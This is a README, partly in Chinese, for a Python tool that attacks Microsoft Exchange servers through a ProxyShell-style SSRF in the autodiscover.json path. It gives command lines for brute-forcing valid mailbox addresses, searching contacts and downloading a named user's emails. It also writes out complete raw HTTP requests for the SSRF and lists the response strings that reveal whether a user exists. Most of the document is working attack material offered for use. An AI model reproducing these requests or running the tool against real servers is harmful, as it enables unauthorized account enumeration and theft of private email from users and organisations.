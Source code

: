 # Some Attacks of Exchange SSRF

# This project is heavily replicated in ProxyShell, NtlmRelayToEWS

https://mp.weixin.qq.com/s/GFcEKA48bPWsezNdVcrWag

## Brute Account 爆破可能存在的用户

file with emails 需要尝试的邮箱文件：

/tmp/emails.txt：

```
admin@exchange.com
test@exchange.com
jumbo@exchange.com
ceshi@exchange.com
support@exchange.com
```

run 运行程序：
```
python Exchange_SSRF_Attacks.py --target mail.exchange.com --action Brute --file /tmp/emails.txt
```

result 结果：

```
admin@exchange.com valid
support@exchange.com valid
```

![image-20210817172750895](README.assets/image-20210817172750895.png)



爆破用户的几个接口 一：

```
POST /autodiscover/autodiscover.json?a=a@edu.edu/ews/exchange.asmx HTTP/1.1
Host: mail.exchange.com
User-Agent: Python PSRP Client
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: text/xml
Cookie: Email=autodiscover/autodiscover.json?a=a@edu.edu
Content-Length: 776

<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages" 
xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types" 
xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
        <m:GetFolder>
            <m:FolderShape>
                <t:BaseShape>Default</t:BaseShape>
            </m:FolderShape>
            <m:FolderIds>
                <t:DistinguishedFolderId Id="inbox">
                    <t:Mailbox>
                        <t:EmailAddress>admin@exchange.com</t:EmailAddress>
                    </t:Mailbox>
                </t:DistinguishedFolderId>
            </m:FolderIds>
        </m:GetFolder>
    </soap:Body>
</soap:Envelope>
```

用户存在会提示：

```
Access is denied. Check credentials and try again., 
```



爆破用户的几个接口 二：

```
POST /autodiscover/autodiscover.json?a=a@edu.edu/autodiscover/autodiscover.xml?=&Email=autodiscover/autodiscover.json?a=a@edu.edu HTTP/1.1
Host: mail.exchange.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36.
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: text/xml
Content-Length: 369

<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
        <Request>
          <EMailAddress>admssin@exchange.com</EMailAddress>
          <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
        </Request>
    </Autodiscover>
    
```

用户不存在会提示：

```
The email address can't be found.
```



## Search Contacts

run 运行程序：

```
python Exchange_SSRF_Attacks.py --target mail.exchange.com --action Search --email validuser@exchange.com --keyword test
```

result 结果：

```
Board.Test@exchange.com
LTSTest@exchange.com
```

## Download user's emails

run 运行程序：
```
python Exchange_SSRF_Attacks.py --target mail.exchange.com --action Download --email userwantdown@exchange.com
```
result 结果：

```
[+] Item [output/item-0.eml] saved successfully
```



![image-20210818142426337](README.assets/image-20210818142426337.png)

![图片](README.assets/640.png)
